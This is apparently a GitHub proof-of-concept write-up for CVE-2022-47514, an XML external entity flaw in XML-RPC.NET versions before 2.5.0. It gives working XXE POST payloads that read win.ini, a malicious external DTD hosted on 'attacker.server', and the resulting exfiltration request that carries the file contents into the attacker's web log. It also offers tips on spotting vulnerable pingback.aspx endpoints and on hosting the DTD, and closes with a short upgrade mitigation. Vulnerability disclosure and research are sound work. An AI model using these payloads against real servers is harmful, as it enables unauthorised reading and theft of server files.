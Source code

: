 # [CVE-2022-47514] Proof of Concept: XML-RPC.NET XXE File Exfiltration
**CVE (+Exploit) Author:** Farzan Karimi

**CVE Summary:**  An XML external entity (XXE) injection vulnerability in http://XML-RPC.NET before 2.5.0 allows remote authenticated users to conduct server-side request forgery (SSRF) attacks, as demonstrated by a pingback.aspx POST request. While the POST response initially appears to be a limited XXE file enumeration vulnerability, it can be elevated to full file exfiltration.

**CVE Details:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-47514

# PoC for CookComputing XML-RPC.NET XXE <2.5.0
1. Identify a vulnerable pingback.aspx endpoint. Identifying pingback endpoints with "CookComputing" <2.5 version footers tend to be strong signals.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)

# 12/29 Update: File Exfiltration

*Summary:* Some XXEs don't directly return file contents in HTTP server responses. These cases don't actually demonstrate the true impact of exploitation, or the ability to exfiltrate file data. The following steps demonstrate how an attacker can still achieve file exfiltration via XXE on XML-RPC.NET by hosting a malicious DTD on a system they control, and then invoke the external DTD from within the in-band XXE payload. 

5. Host a malicious DTD on a file server the attacker controls. The system should host a malicious XML, containing:

```
<!ENTITY % meta "<!ENTITY serverfile SYSTEM 'https://attacker.server/public/evil.xml?r=%winfile;'>">  
%meta; 

```

When this XML document is parsed, the token &winfile; will be replaced with the contents of the win.ini file of the system where the parsing took place. The entity “winfile” in this XML document is an example of an external entity since it’s read from a separate resource. In cases where user-controlled XML is parsed on a server and the XML is then reflected to the user, this can allow malicious users to see the contents of privileged files on the server itself.

6. Craft the POST payload to post the entity as a variable to your server, as so:

```
<?xml version="1.0"?> 

<!DOCTYPE doc PUBLIC "blah" "https://attacker.server/public/evil.xml" [ 
  <!ENTITY % winfile SYSTEM "file://c:/windows/win.ini"> 
]> 

<doc> 
  &serverfile; 
</doc> 
```

Burp request:
![xxe-exfil-payload](https://user-images.githubusercontent.com/3679232/210012497-d0ed37f8-3e95-4231-971d-03a83629c1f8.png)


7. Because the parameter entity token is being used in a normal literal which then composes a system literal, it is parsed and expanded. This makes a request to a URL like:

```
http://www.attacker.server/?r=;%20for%2016-bit%20app%20support%0D%0A%5Bfonts%5D%0D%0A%5Bextensions%5D%0D%0A%5Bmci%20extensions%5D%0D%0A%5Bfiles%5D%0D%0A%5BMail%5D%0D%0AMAPI=1%0D%0A%5BMCI%20Extensions.BAK%5D%0D%0Am2v=MPEGVideo%0D%0Amod=MPEGVideo
```

And the targetted file (e.g. win.ini) is exfiltrated and written to the attacker's web log:

![xxe-data-exfil](https://user-images.githubusercontent.com/3679232/210012160-eab20862-cd15-4c6a-aa29-41001ec17519.png)

Note: if using Azure to host your evil XML (external DTD), it may take time for the file to appear in the Azure web logs. Based on experience, replaying the request multiple times may trigger Azure garbage collection to update the logs sooner.

# Mitigation
Installations using a version prior to version 2.5.0 should update to version 2.5.0. This mitigation disables XML entity expansion.
